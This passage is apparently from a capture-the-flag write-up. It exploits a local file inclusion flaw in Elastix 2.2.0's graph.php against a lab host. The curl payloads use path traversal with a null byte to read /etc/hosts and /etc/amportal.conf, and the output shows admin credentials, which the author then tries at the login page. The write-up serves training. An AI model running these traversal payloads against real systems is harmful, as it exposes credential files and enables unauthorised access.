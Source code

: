 Elastix version `2.2.0` is prone to a LFI vulnerability because it fails to
properly sanitize user-supplied input. The issue lies specifically in the
`graph.php` page: if an attacker specifies a specially crafted value to the
`current_language` HTTP parameter, he can read any local file.

Let's try to use the LFI to read the file `/etc/hosts`, by following the PoC:

```sh
❯ curl -s -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/hosts%00&module=Accounts&action"
```

```
# Do not remove the following line, or various programs
# that require network functionality will fail.
127.0.0.1       localhost       beep localhost.localdomain localhost
::1             localhost6.localdomain6 localhost6
Sorry! Attempt to access restricted file.
```

It works!

The PoC suggests to include `/etc/amportal.conf`, the config file for FreePBX, a
web-based graphical user interface for Asterisk (which is part of Elastix)
responsible for handling the configuration and management of Asterisk. This is
probably the technology behind the login page we encountered on the homepage!

```sh
❯ curl -s -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"
```

```
<SNIP>
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
<SNIP>
```

There's a lot of output, but I immediately noticed potential credentials.

#### Exploration

Back to Elastix's login page, let's try to log in with the
`admin`:`jEhdIekWmdjE` credentials.
